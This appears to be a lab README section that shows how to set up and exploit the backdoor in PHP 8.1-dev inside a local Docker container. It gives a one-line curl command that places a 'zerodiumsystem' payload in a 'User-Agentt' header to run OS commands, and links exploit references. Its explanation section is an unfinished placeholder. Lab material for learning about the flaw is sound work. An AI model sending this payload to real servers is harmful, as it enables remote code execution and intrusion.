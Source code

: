# 4. PHP 8.1-DEV BACKDOOR
## Subtitle / what it does
PHP 8.1-dev has been backdoored. A malicious "User-agentt" header can be sent along with the request. Read more: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/

### Run in docker:
```
docker-compose up -d
curl -H "User-Agentt: zerodiumsystem('whoami');" http://localhost:8080
```
![image](https://user-images.githubusercontent.com/31791455/140391265-d9cc3cc8-9c61-47e3-9a54-eece30c0b779.png)


### Explanation
This happens costam

### References and recommended reading
https://www.exploit-db.com/exploits/49933
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/php/8.1-backdoor
